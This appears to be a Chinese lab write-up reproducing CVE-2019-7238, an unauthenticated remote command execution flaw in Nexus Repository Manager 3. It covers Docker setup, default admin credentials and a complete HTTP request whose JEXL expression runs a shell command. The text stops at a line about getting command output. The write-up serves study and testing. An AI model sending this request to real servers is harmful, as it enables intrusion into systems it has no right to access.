

Nexus Repository Manager 3 远程命令执行漏洞（CVE-2019-7238）¶
Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。
参考链接：
- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/
环境搭建¶
执行如下命令启动Nexus Repository Manager 3.14.0：
docker compose up -d
等待一段时间环境才能成功启动，访问http://your-ip:8081即可看到Web页面。
使用账号密码admin:admin123登录后台，然后在maven-releases下随便上传一个jar包：

触发该漏洞，必须保证仓库里至少有一个包存在。
漏洞复现¶
接口没有校验权限，所以直接发送如下数据包，即可执行touch /tmp/success命令：
POST /service/extdirect HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close
{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
可见，/tmp/success已成功执行：

原理是expression位置的JEXL表达式被执行，详情可阅读参考文档。
利用classloader加载字节码即可获得回显：